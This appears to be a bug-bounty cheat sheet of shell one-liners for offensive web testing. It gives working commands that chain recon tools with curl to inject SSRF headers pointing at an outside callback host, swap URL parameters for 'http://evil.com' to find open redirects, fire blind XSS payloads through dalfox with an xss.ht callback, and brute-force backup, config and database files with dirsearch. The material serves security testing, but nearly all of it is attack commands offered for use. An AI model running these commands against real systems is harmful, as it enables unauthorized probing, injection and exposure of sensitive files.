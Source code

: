 # Blind SSRF Oneliner:

`echo "testphp.vulnweb.com"|assetfinder|httprobe|while read url; do ssrf=$(curl -s -L $url -H "X-Forwarded-Host: pingb.in/p/6305faa38a067b8717e6d09db07f");echo -e "$url -> X-Forwarded-Host: injected";done`

`echo "testphp.vulnweb.com"|assetfinder|httpx|while read url; do ssrf=$(curl -s -L $url -H "X-Forwarded-Host: pingb.in/p/6305faa38a067b8717e6d09db07f");echo -e "$url -> X-Forwarded-Host: injected";done`

# Open Redirect Oneliner:

`cat waybackurls_result.txt|grep -a -i \=http|qsreplace 'http://evil.com'|while read host do;do curl -s -L $host -I|grep "evil.com" && echo "$host \033[0;31m[+]VULNERABLE-TO-OPEN-REDIRECT-ATTACK\n";done`

# Blind XSS Oneliner:

`echo testphp.vulnweb.com|gau -subs|grep "https://" |grep -v "png\|jpg\|css\|js\|gif\|txt"|grep "="|uro|dalfox pipe --deep-domxss --multicast --blind akshayravi0479.xss.ht`

# Content Discovery With Dirsearch Oneliner:

`dirsearch -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json -u http://target`
